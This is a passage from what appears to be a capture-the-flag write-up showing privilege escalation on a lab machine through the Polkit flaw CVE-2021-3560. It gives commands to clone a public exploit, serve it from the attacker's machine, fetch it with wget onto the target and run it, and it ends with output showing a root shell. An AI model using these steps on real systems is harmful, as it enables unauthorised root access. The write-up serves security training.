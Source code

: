 > Polkit is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for **non-privileged** processes to communicate with **privileged ones**.
</p>
</div>

####
Having that in mind, we can try to use the **polkit-agent-helper-1** file to escalate our permissions. But first we need to search what is the proccess and the arguments that are passed to exploit. [Poolkit-Privilage-Escalation](https://github.com/Almorabea/Polkit-exploit)
####
Is a python file, tha wait be executed in target machine, so first is necessary verify wether target machine have python: `which python3` and effectively exist. So we need to share this file with the target machine. Using python in this our machine:
####
```bash
git clone https://github.com/Almorabea/Polkit-exploit
cd Polkit-exploit
python3 -m http.server 8080
```
####
In the target machine:
####
```bash
wget http://<tun0_ip>:8080/CVE-2021-3560.py
python3 CVE-2021-3560.py
```
####
After execute the python exploit we should become in the **root** user, because the exploit automate all explotation, and execute de command: `su ahmed`, insert the password and then execute: `sudo su`, is in that moment tha we become in root user.
####
```perl
[+] Timed out at: 0.007162246574390269
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (3013): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]# -> Spawned root shell
```